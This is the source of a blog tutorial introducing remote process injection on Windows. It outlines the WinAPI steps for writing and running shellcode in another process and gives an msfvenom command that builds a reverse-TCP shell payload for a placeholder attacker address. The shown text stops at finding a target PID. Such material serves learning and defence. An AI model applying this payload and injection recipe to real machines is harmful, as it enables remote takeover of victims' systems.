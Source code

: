 ```yaml
---
title: "Process Injection Part 1: Basic Remote Injection"
date: 26-07-2024 00:00:00 +0800
categories: [Malware, Process Injection]
tags: [malware, Process Injection]
author: 0xB3L14L
description: The first part of this Process Injection series, where a simple injection will be demonstrated using the WinAPI functions VirtualAllocEx, WriteProcessMemory, and CreateRemoteThread. This serves as the foundation for future techniques
lang: en
permalink: /posts/Shellcode_Injection
image:
  path: /Media/Images/Process-Injection-Shellcode/Remote_Process_Injection.png
---
```


IThe **Process Injection** is a technique used to inject a payload into the memory of a process; this payload can be a shellcode or a DLL. This technique has three fundamental steps:

1. Allocate space in memory (buffer).
2. Write the payload to the buffer.
3. Execute the payload.

These three steps are used for local injection, and depending on the injection sub-technique, the steps will increase.

To perform injection into a remote process, the following steps must be taken:

1. Find the remote process. (***`CreateToolHelp32Snapshot`, `Process32First`, `Process32Next`***)
2. Obtain a handle to the remote process. (***`OpenProcess`***)
3. Allocate a buffer in the remote process. (***`VirtualAllocEx`***)
4. Write the shellcode to the buffer. (***`WriteProcessMemory`***)
5. Set execution permission "X" on the buffer. (***`VirtualProtectEx`***)
6. Execute the buffer. (***`CreateRemoteThread`***)

The shellcode to be used will be generated by msfvenom:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -a x64 -f c --platform windows
```

## **Finding the Remote Process**

To inject the shellcode, the PID of the remote process is needed. The PID is an arbitrary value, and each time a program is executed, it will have a different PID.

![hSnasphot](/Media/Images/Process-Injection-Shellcode/PIS-notepad-1.png)
_The first time notepad is executed, it has PID `6716`_

![hSnasphot](/Media/Images/Process-Injection-Shellcode/PIS-notepad-2.png)
_The second time notepad is executed, it now has PID `1036`_
